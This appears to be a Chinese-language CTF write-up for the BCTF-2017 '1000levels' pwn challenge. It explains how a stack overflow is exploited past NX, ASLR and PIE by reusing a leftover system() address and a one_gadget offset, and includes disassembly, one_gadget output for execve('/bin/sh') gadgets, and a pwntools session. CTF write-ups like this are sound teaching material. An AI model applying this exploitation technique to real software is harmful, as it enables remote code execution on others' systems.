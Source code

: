 ```assembly
.text:0000000000000D7C loc_D7C:                                ; CODE XREF: hint+4F↑j
.text:0000000000000D7C                 lea     rax, [rbp+var_110]
.text:0000000000000D83                 add     rax, 8
.text:0000000000000D87                 mov     rdi, rax        ; s
.text:0000000000000D8A                 call    _puts
.text:0000000000000D8F                 nop
.text:0000000000000D90                 leave
.text:0000000000000D91                 retn
.text:0000000000000D91 ; } // starts at D06
.text:0000000000000D91 hint            endp
```

#### 题目分析总结：

程序分析结束，找到溢出漏洞一处，思路就可以是利用shellcode或者rop技术来执行命令。

因为有NX保护存在所以只能用ROP来利用漏洞，对rop的长度没有限制，但是，由于ASLR和PIE的存在导致无法直接获得system函数的地址，幸亏有hint这样一个函数。

从上文可以看到，在hint函数中，system的地址防止在rbp-110这样的位置：

![img](https://images2017.cnblogs.com/blog/1071926/201709/1071926-20170908113325554-1617946468.png)

而我们找到的脏数据使用v5恰巧也是是定义在这个位置

![img](https://images2017.cnblogs.com/blog/1071926/201709/1071926-20170908113419335-1149498959.png)

因此，当第一次输入为0时，v5就是system的地址。通过这个地址，可以爆破得到system的地址。

想法是这样的：

猜测system第地址为i时，如果输入-i，当i>system的地址时，得到的v6<0会输出coward字样，按位猜解从高位到低位就可以顺次找到各位的system值。



可以先将system地址减去成one_gadget地址，先看一下相对偏移

When playing ctf pwn challenges we usually need the one-gadget RCE (remote code execution), which leads to call `execve('/bin/sh', NULL, NULL)`

(也可以由libc可以找到libc中“/bin/sh”的地址。最后使用ROPgadget找到一个在libc中“pop rdi  ， ret”作为传参gadget就可以利用栈溢出漏洞，来使用rop进行命令执行)

```python
spr4ta@pwn:/media/psf/pwn/XCTF/BCTF-2017/1000levevls$ one_gadget libc.so 
0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xef6c4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf0567 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

from pwn import *
In [3]: elf = ELF('./libc.so')
[*] '/media/psf/pwn/XCTF/BCTF-2017/1000levevls/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

In [4]: elf.symbols['system']
Out[4]: 283536

In [5]: system_offset = hex(elf.symbols['system'])
```